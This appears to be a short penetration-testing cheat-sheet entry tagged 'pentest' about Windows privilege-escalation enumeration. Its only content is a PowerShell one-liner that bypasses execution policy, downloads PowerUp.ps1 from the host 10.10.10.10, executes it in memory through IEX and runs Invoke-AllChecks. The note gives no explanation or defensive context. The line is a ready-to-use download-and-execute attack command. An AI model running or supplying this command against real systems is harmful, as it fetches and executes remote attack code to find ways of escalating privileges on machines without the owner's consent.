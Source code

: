 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Powershell

Powerup Download and Invoke All Checks:

~~~PowerShell
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Windows/Powershell/PowerUp.ps1'); Invoke-AllChecks”
~~~

